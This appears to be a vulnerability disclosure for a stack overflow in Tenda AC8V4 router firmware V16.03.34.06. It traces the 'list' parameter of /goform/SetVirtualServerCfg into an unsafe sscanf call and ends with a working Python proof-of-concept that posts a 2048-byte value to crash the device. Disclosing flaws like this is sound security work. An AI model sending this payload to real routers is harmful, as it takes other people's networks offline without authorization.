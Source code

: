 # Tenda_AC8V4 stack overflow vulnerability

## Affected version:

```
US_AC8V4.0si_V16.03.34.06
```

To download the firmware: https://www.tenda.com.cn/download/detail-3518.html

## Description

In the firmware of Tenda AC8V4 V16.03.34.06, the route /goform/SetVirtualServerCfg can cause a stack overflow, thereby achieving a denial of service attack


The "list" parameter is passed to Var through websGetVar, and then entered into the `save_virtualser_data` function as the second parameter

![image](https://github.com/Xunflash/IOT/assets/71567536/ba9a1e7f-de40-4edc-8a08-88af3d6f99b5)

a2 is assigned to v5

![image](https://github.com/Xunflash/IOT/assets/71567536/68bf1726-a944-4b78-8607-2b52393439ad)

Then the program uses the dangerous function sscanf to format v5 and pass it into v12, v13, v14, v15

![image](https://github.com/Xunflash/IOT/assets/71567536/82b71b65-fdce-404a-bbfe-66c0ff74e389)

![image](https://github.com/Xunflash/IOT/assets/71567536/dd4dc87a-6be4-47b7-995c-e7d6f66dabc8)

## Poc&&Exp

```
import argparse
import requests
requests.packages.urllib3.disable_warnings()

parser = argparse.ArgumentParser()
parser.add_argument("-u", "--url")
args = parser.parse_args()
host = args.url
cyclic = b"a"*2048    

def exploit(host):
    url = f"http://{host}/goform/SetVirtualServerCfg"
    data = {
        b'list':cyclic
    }
    res = requests.post(url=url,data=data)
    

if __name__ == "__main__":
    if args.url:
        try:
            exploit(args.url)
            print("[+] Exploit finished!")
        except Exception as e:
            print("[-]", e)
            print("[-] Exploit finished!")
    else:
        print("[*] Use -h get help info.")
```



![image](https://github.com/Xunflash/IOT/assets/71567536/0cfe1747-fcc1-46b3-becc-04343465f8c0)
